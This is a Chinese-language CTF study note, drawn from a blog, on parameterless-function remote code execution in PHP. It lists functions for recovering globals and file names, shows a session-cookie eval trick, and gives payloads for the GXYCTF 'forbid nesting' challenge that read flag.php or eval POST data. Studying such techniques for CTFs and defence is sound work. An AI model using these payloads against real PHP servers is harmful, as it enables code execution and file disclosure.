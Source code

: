 以下部分摘自：[PHP Parametric Function RCE · sky's blog (skysec.top)](https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/)



就是无参数0-0，像`/[^\W]+\((?R)?\)/`这样的正则
禁：a('123')这样的类型，只能是构造a(b(c()))这样的形式进行rce



可以用全局变量搭配一些函数取得字母进行rce

取全局变量：

1. getenv()

2. localeconv()

3. getallheaders()：apache2环境

4. get_defined_vars()：回显全局变量：`$_GET`、`$_POST`、`$_FILES`、`$_COOKIE`

5. session_id()：获取/设置当前会话id
   session_start()：创建新会话或重用现会话。 
   如果通过 GET 、POST 或者用 cookie 提交了会话 ID， 则会重用现有会话

   ```
   利用eval(hex2bin(session_id(session_start())));
   然后传入cookie:PHPSESSID=payloadpayload=转为十六进制的"命令"
   ```
   
6. getcwd()：获取当前目录
   chdir()：更改当前目录
   dirname()：返回路径中的目录部分

一些函数：

1. scandir(目录,[0|1:升|降序],[context])——列出指定路径中的文件和目录
2. localeconv()——返回一包含本地数字及货币格式信息的数组,数组第一项是.
3. current()——返回数组中的当前元素值, 默认取第一个值，别名为pos()
4. array_reverse()——逆向输出数组
5. array_flip()交换数组的键和值
6. array_rand()从数组随机一个或多个单元，不断刷新访问就会不断随机返回



##### GXYCTF禁止套娃

[简析GXY_CTF “禁止套娃”无参数RCE – 颖奇L'Amore (gem-love.com)](https://www.gem-love.com/ctf/530.html)

方法1：找flag.php再

 payload:

```
show_source(next(array_reverse(scandir(pos(localeconv()))))); highlight_file(next(array_reverse(scandir(current(localeconv()))))); highlight_file(array_rand(array_flip(scandir(current(localeconv()))))); highlight_file(next(array_reverse(scandir(current(localeconv())))));
```

 方法2、

```
eval(arrar_pop(next(get_defined_vars()))); +post传参 
```
